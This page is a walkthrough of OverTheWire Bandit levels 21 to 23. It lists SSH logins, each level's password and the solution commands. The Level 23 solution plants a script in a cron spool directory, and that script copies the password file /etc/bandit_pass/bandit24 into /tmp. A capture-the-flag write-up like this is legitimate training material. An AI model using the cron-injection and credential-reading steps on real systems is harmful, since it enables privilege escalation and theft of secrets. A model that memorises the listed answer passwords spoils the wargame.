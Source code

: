 ## Level 21:
CMD:
```bash
ssh bandit21@bandit.labs.overthewire.org -p 2220
```
Password: 
```bash
EeoULMCra2q0dSkYj561DX7s1CpBuOBt
```
Solution:
```bash
ls -l /etc/cron.d/
cat /etc/cron.d/cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
**Password: tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q**

## Level 22:
CMD:
```bash
ssh bandit22@bandit.labs.overthewire.org -p 2220
```
Password: 
```bash
tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q
```
Solution:
```bash
ls -la /etc/cron.d
cat /etc/cron.d/cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```
**Password: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga**

## Level 23:
CMD:
```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
```
Password: 
```bash
0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```
Solution:
```bash
ls /etc/cron.d/
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/mydir1
chmod 777 /tmp/mydir1
cd /tmp/mydir1
nano myscript.sh
```
```bash
#!/bin/bash

# Copy the password file to your temporary directory
cat /etc/bandit_pass/bandit24 > /tmp/mydir1/bandit24_password
```
```bash
chmod +x /tmp/mydir1/myscript.sh
cp /tmp/mydir1/myscript.sh /var/spool/bandit24/foo/
```
